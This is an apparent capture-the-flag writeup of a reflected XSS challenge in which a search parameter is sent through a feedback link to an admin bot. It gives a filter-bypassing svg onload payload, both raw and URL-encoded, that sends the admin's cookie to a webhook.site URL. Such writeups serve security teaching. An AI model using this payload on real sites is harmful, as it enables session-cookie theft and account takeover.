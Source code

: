 # Challenge `Give me more than a simple WAF` Writeup

- Vulnerability:
    - XSS attack

- Where:
    - Feedback link input

- Impact:
    - Allows to steal remote user's cookie

## Steps to reproduce

This challenge is simmilar to the one before however with the particularity that keywords `script` and `img` are being filtered. 

We need to grab the admin's cookie and we know that the website is vulnerable to XSS attacks and that the admin will click on the link we submit on the feadback feature by taking advantage of search URL parameter (`?search=`). 

Again by using a webhook site we can create a malicious payload that will send the admin's cookie to our webhook. However, this time, we need to bypass the filter. To do so we can use the following payload: `<svg onload=location='https://webhook.site/<unique-id>/'+document.cookie>`. To ensure that the payload will be correctly executed, we must URL encode it. The final payload is then: `%3Csvg%20onload%3Dlocation%3D%27https%3A%2F%2Fwebhook.site%2F<unique-id>%2F%27%2Bdocument.cookie%3E`. Finally, we append this encoded payload to the search URL parameter and submit it to the admin.

The admin will then click on the link and automatically make a search query with the payload that will send a request to our webhook site with the cookies appended. In the webhook site we will see a GET request and then we only need to URL decode the cookies to get the flag. The cookies will be after `/SECRET=`.
